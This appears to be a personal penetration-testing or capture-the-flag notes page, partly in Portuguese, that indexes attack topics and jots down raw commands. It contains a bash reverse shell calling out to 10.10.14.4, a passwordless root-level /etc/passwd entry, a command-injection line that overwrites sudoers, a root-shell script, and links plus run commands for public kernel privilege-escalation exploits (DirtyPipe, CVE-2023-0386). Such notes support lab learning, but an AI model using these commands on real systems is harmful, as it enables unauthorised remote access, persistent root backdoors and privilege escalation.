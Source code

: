 [[Cyber - Type Confusion]]

[[Cyber - Exploiting XSS-stealing cookies]]

[[Cyber - Reverse Shell]]

[[Cyber - Wildcards Spare tricks]]

[[Cyber - Port Forwarding]]

[[Cyber - PHAR - PHP]]

[[Cyber - SSH - Assinando Chaves com certificado ]]

[[Cyber - Filter a TCP handshake]]

---

Elastic Search
Wazuh

log_file=/root/root.txt; cp /dev/shm/sudoers> /etc/suoderskanalyze_log

---

[[Cyber - Subdomain enumeration]]

---

echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh

Criar um usuário sem senha e com a shell do root : root4::0:0:root4:/root:/bin/bash

Fazer conexão remota : bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

---

site de hashes : https://gchq.github.io/CyberChef/

---

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits?tab=readme-ov-file

---
https://github.com/xkaneiki/CVE-2023-0386
./fuse ./ovlcap/lower ./gc &
./exp


netstat -tnlp

#### Port Fowarding ssh
sudo ssh -L 8080:127.0.0.1:8080 michael@sightless.htb